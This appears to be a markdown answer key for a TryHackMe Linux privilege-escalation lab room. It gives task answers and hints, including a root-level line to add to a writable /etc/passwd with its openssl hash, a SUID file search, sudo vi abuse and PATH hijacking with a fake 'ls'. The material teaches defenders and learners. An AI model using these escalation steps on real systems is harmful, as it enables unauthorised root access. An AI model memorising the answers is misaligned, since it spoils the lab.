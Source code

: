https://tryhackme.com/room/commonlinuxprivesc

#### [Task 1] Get Connected
   1. No answer needed  

#### [Task 2] Understanding Privesc
   1. No answer needed 

#### [Task 3] Direction of Privilege Escalation
   1. No answer needed  

#### [Task 4] Enumeration
   1. No answer needed 
   2. polobox
> Hint: 
>
> Once you sign in via ssh you will see something like "user3@polobox:~$"
>
> The host name is the word after the "@" sign
   3. 8
> Hint: 
>
> Type the command "cat /etc/passwd" 
>
> You should be able to see all the users so then just count the number of them 
   4. 4 
> Hint: 
>
> Type the command "cat /etc/shells" 
>
> You should be able to see all the shells so then just count the number of them 
   5. autoscript.sh 
> Hint: 
>
> After looking at the hint on the page, can you only then find out the answer 
>
> Even after reading the contents of the script, you cant see anything that says 5 mins
>
> Wasn't able to find the cron job that stated it was being ran every 5 mins either  
   6. /etc/passwd
> Hint: 
>
> Assuming critial file make something like the passwd file, it was a decent guess 
>
> By typing out the following command "ls -la /etc" and look for the passwd file 
>
> You will see the added permissions for that file 
   7. No answer needed

#### [Task 5] Abusing SUID/GUID Files
   1. /home/user3/shell
> Hint: 
>
> After typing in the following command "find / -perm -u=s -type f 2>/dev/null"
>
> We see a file path that has a SUID and contains user3
   2. No answer needed
   3. No answer needed

#### [Task 6] Exploting Writeable /etc/passwd
   1. No answer needed 
   2. vertical 
> Hint:
>
> Since we are trying to get root access, it indicates a vertical direction 
   3. $1$new$p7ptkEKU1HnaHpRtzNizS1
> Hint:
>
> Type the following command to get a password hash: 
>
> "openssl passwd -1 -salt new 123"
   4. new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
> Hint: 
>
> Based of this example given "test:"x":0:0:root:/root:/bin/bash" or "username:passwordhash:0:0:root:/root:/bin/bash"
>
> Note: ^ for the "x" there doesnt have to be quotes, it was used to escape a certain character being displayed
>
> Input the name of the user and the hashed password for the correct entry
   5. No answer needed 
   6. No answer needed

#### [Task 7] Escaping Vi Editor
   1. No answer needed 
   2. NOPASSWD
> Hint:
>
> By Typing in the command "sudo -l" 
>
> You should be able to see something like 
>
>User user8 may run the following commands on polobox:
>
>(root) NOPASSWD: /usr/bin/vi
   3. No answer needed 
   4. No answer needed 

#### [Task 8] Exploiting Crontab 
   1. No answer needed 
   2. No answer needed 
   3. -p 
> Hint: 
>
> After typing "msfvenom --help", you should be able to see the following:
>
> -p, --payload | <payload>  Payload to use
   4. No answer needed 
   5. /home/user4/Desktop
> Hint: 
>
> If you navigate to user4's desktop folder
>
> Then type the following command "pwk"
>
> The current working directory will be outputted
   6. No answer needed 
   7. No answer needed 
   8. No answer needed 

#### [Task 9] Exploiting PATH Variable
   1. No answer needed 
   2. ls
> Hint:
>
> It just lists the content of the current directory
>
> If you were to type the command "ls", it would output the same result 
   3. No answer needed 
   4. echo "/bin/bash" > ls
> Hint:
>
> The /bin/bash is the part that opens up a new terminal that we would ran as root
   5. chmod +x ls
> Hint:
>
> "chmod +x" is the command that makes a file executable 
   6. No answer needed 
   7. No answer needed 
   8. No answer needed 

#### [Task 10] Expanding Your Knowledge
   1. No answer needed 
